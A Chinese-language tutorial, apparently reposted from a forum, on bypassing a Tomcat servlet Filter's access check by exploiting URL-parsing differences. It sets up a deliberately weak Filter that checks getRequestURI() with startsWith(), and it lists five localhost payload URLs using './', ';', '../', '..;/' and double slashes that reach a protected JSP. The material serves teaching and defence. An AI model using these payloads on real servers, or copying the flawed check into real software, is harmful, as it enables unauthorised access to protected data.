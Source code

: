 # Tomcat URL 解析差异性攻击利用

> 原文：[https://www.zhihuifly.com/t/topic/3191](https://www.zhihuifly.com/t/topic/3191)

## Tomcat URL 解析差异性攻击利用

看个访问限制绕过的场景。

假设Tomcat上启动的Web目录下存在一个info目录，其中有一个secret.jsp文件，其中包含敏感信息等：

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<html>
<head>
    <title>Secret</title>
</head>
<body>
username: mi1k7ea<br>
password: 123456<br>
address: china<br>
phone: 13666666666<br>
</body>
</html> 
```

新建一个filter包，其中新建一个testFilter类，实现Filter接口类：

```
package filter;

import javax.servlet.*;

import javax.servlet.http.*;

import java.io.IOException;

public class testFilter implements Filter {

@Override

public void init(FilterConfig filterConfig) throws ServletException {

```
}

@Override
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
    HttpServletRequest httpServletRequest = (HttpServletRequest)servletRequest;
    HttpServletResponse httpServletResponse = (HttpServletResponse)servletResponse;

    String url = httpServletRequest.getRequestURI();

    if (url.startsWith("/urltest/info")) {
        httpServletResponse.getWriter().write("No Permission.");
        return;
    }

    filterChain.doFilter(servletRequest, servletResponse);
}

@Override
public void destroy() {

} 
``` `}` 
```

这个Filter作用是：只要访问/urltest/info目录下的资源，都需要进行权限判断，否则直接放行。可以看到，这里调用getRequestURI()函数来获取请求中的URL目录路径，然后调用startsWith()函数判断是否是访问的敏感目录，若是则返回无权限的响应。当然这里写得非常简单，只做演示用。

编辑web.xml，添加testFilter设置：

```
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <filter>
        <filter-name>testFilter</filter-name>
        <filter-class>filter.testFilter</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>testFilter</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
</web-app> 
```

运行之后，访问`http://localhost:8080/urltest/info/secret.jsp`，会显示无权限：

![image](img/6bbe19f67f4731ef8d683a2b8fb26635.png)

根据前面的分析构造如下几个payload都能成功绕过认证限制来访问：

```
http://localhost:8080/urltest/./info/secret.jsp
http://localhost:8080/urltest/;mi1k7ea/info/secret.jsp
http://localhost:8080/urltest/mi1k7ea/../info/secret.jsp
http://localhost:8080/urltest/mi1k7ea/..;/info/secret.jsp
http://localhost:8080//urltest/info/secret.jsp 
```

![image](img/9104ca96ff76878da56a5ed6b4a80182.png)

整个的过程大致如此，就是利用解析的差异性来绕过认证